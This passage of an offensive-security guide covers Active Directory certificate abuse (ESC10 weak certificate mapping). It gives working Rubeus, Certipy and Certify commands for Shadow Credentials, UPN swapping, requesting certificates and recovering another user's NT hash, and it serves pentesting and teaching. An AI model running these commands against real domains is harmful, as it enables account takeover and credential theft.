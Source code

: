     Now, authenticating with the obtained certificate will provide the user3's NT hash during UnPac the hash. This action can be realised with Rubeus. The domain must be specified since it is not present in the certificate.
    ```bash
    Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
    ```
### ESC10: Weak certificate mapping
#### Case 1
- `StrongCertificateBindingEnforcement` set to 0, meaning no strong mapping is performed
- A template that specifiy client authentication is enabled (any template, like the built-in User template)
- `GenericWrite` right against any account A to compromise any account B
=== "UNIX-like"
    From UNIX-like systems, Certipy (Python) can be used to enumerate for, and conduct, the ESC10 scenario.

    In this scenario, user1 has GenericWrite against user2 and want to compromise user3.

    First, the user2's hash is needed. It can be retrieved via a Shadow Credentials attack, for example.
    ```bash
    certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
    ```
    Then, the userPrincipalName of user2 is changed to user3.
    ```bash
    certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
    ```
    A certificate permitting client authentication can be requested as user2.
    ```bash
    certipy req -username "user2@$DOMAIN" -hashes "$NT_HASH" -ca 'ca_name' -template 'User'
    ```
    The user2's UPN is changed back to something else.
    ```bash
    certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
    ```
    Now, authenticating with the obtained certificate will provide the user3's NT hash with UnPac the hash. The domain must be specified since it is not present in the certificate.
    ```bash
    certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
    ```
=== "Windows"
    From Windows systems, the Certify (C#) tool can be used.
    ```bash
    # Find vulnerable/abusable certificate templates using default low-privileged group
    Certify.exe find

    # Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
    Certify.exe find /currentuser
    ```
    Here, user1 has `GenericWrite` against user2 and want to compromise user3.
